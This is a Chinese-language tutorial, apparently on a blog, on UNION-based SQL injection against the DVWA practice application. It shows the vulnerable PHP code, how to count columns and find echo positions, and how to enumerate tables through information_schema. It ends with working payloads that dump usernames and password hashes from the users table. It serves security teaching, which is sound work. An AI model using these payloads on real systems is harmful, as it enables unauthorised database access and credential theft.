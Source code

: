 ## 0x00 union联合注入攻击原理
联合查询注入是联合两个表进行注入攻击，使用关键字union select 对两个表进行联合查询。要注意两个表的字段数要相同，不然会报错，错误是 different number of columns。  
order by N 或者 union select 1,2,3,4,5,6,7,...,N，通过这种方式可以判断查询结果的字段数。  
如果只想要一行数据，就在sql语句后添加 $limit 1$，即为只显示1行数据。$limit 0,1$ 表示从0开始，查询数据显示1行。

## 0x01 --+的作用
--是标准的SQL注释符，--后面的内容被视为注释，SQL引擎会忽略他们。一般情况下，空格字符可能会被过滤或者触发WAF相关规则，所以使用 $+$ 代替空格，在URL编码中，$+$被视为空格的编码形式，所以用$+$代替空格来达到绕过防护的目的。

## 0x02 union select使用方法
在联合查询两个表时，如果两个表显示列数不一样就会报错。例如，guestbook有3个字段，users也需要有3个字段与之匹配，多或者少都会报错。
```sql
SELECT * FROM guestbook WHERE comment_id=1 union select 1,2,3 from users;
```
可以把1，2，3替换为数据库关键信息函数database()、version()、user()等：
```sql
SELECT * FROM guestbook WHERE comment_id=1 union select database(),user(),version() from users;
```
还可以替换成数据表中的字段：
```sql
SELECT * FROM guestbook WHERE comment_id=1 union select user_id,user,password from users;
```
如果不加  $limit 1$ 会把所有信息显示出来，但是有时候网页前端只有一条数据的回显位置，所以需要限定条件，只显示1行数据。
```sql
SELECT * FROM guestbook WHERE comment_id=1 union select user_id,user,password from users limit 1
```
此时显示的是guestbook这个数据库中的原有的1条数据，并不是我想要的，我想要的是users表中的每一条数据，所以我们可以把comment_id这个限制条件做修改，如果让comment_id=-1的话，查询结果为空，就可以显示后面联合查询的结果了，所以修改payload如下，此时可以显示users表中的第一条数据：
```sql
SELECT * FROM guestbook WHERE comment_id=-1 union select user_id,user,password from users limit 1
```
想要查看接下来的几条数据可以这样修改：
```sql
SELECT * FROM guestbook WHERE comment_id=-1 union select user_id,user,password from users limit 1，1

SELECT * FROM guestbook WHERE comment_id=-1 union select user_id,user,password from users limit 2，1

SELECT * FROM guestbook WHERE comment_id=-1 union select user_id,user,password from users limit 3，1
```

## 0x03 代码分析
```php

<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

?>
```
使用$\$\_REQUEST$直接接收$id$参数，没有进行任何过滤，同时可以接收cookie get post这些传递方法。接下来需要判断是字符型注入还是整型注入，输入单引号$'$ 会出现报错语句You have an error in your SQL syntax; 可以知道属于字符型注入，在进行注入检测时要注意单引号闭合。

## 0x04 union select联合注入流程
首先，输入 1'and '1'='1 页面返回用户信息 1'and '1'='2 页面返回不一样的信息。基本可以确定存在 SQL 注入漏洞。  
接下来要判断字段数，使用语句 order by 确定当前表的查询结果字段数。order by 1 如果页面返回正常 字段数不少于 1,order by 2 不少于 2，一直如此类推直到页面出错。正确的字段数是出错数字减少 1。  
通过联合查询确定回显位置：-1' union select 1,2--+ 可以看到在网页中显示1，2的位置，便是注入回显位置，我们通过这个回显拿敏感信息。  
注意：把数据替换成 mysql 的函数例如 md5(1) 这会在页面返回 1 的 md5 加密信息。使用这个函数一般是白帽子扫描器匹配存在漏洞的特征码。  
还可以查看以下数据：
- version() mysql 版本；
- database() 当前数据库；
- user() 当前用户名；
- group_concat()分组打印字符串；  
```sql
'-1' union select 1,group_concat(user(),0x3A,database(),0x3A,version())--+
```
其中0x3a是冒号 : 的16进制HEX编码，MySQL可以把0x3a自动识别成冒号，上面payload可以把各种信息用冒号分隔开，便于查看。
```bash
mysql> select group_concat(0x3a);
+--------------------+
| group_concat(0x3a) |
+--------------------+
| :                  |
+--------------------+
1 row in set (0.00 sec)
```
之后得到当前数据库名dvwa。  
接下来可以通过 mysql 自带的 information_schema 查询当前库的表：
```bash
mysql> select first_name,last_name from users where user_id='-1' union select 1,group_concat(table_name) from information_schema.TABLES where table_schema=database();
+------------+-----------------+
| first_name | last_name       |
+------------+-----------------+
| 1          | guestbook,users |
+------------+-----------------+
```
通过上面命令得到当前数据库（dvwa）中有两个表，分别是 guestbook 和 users，猜测users里面会有敏感信息，所以在 information_schema库对应的COLUMNS表中查看users表的字段。
```bash
mysql> select first_name,last_name from users where user_id='-1' union select 1,group_concat(column_name) from information_schema.COLUMNS where table_schema=database() and table_name='users';
+------------+---------------------------------------------------------------------------+
| first_name | last_name                                                                 |
+------------+---------------------------------------------------------------------------+
| 1          | user_id,first_name,last_name,user,password,avatar,last_login,failed_login |
+------------+---------------------------------------------------------------------------+
```
如果只有一个回显位置的话，我们需要利用limit来限制回显数量，具体payload如下：
```sql
#获取 users 表第一个字段名
'-1' union select 1,((select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='users' limit 1))--+

#获取 users 表第二个字段名
'-1' union select 1,((select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='users' limit 2,1))--+
```
最后步骤，通过以上的黑盒查询获取库名、表名、字段名、那么就可以查询某个表的内容。
```sql
'-1' union select 1,(select group_concat(user,0x3a,password) from users limit 1)--+
```

## 0x05 嵌套查询
在上面SQL语句中，涉及到了嵌套查询，只需要把子查询括起来，放到select参数位置处即可。
```sql
select 1,(select group_concat(user,0x3a,password) from users);
```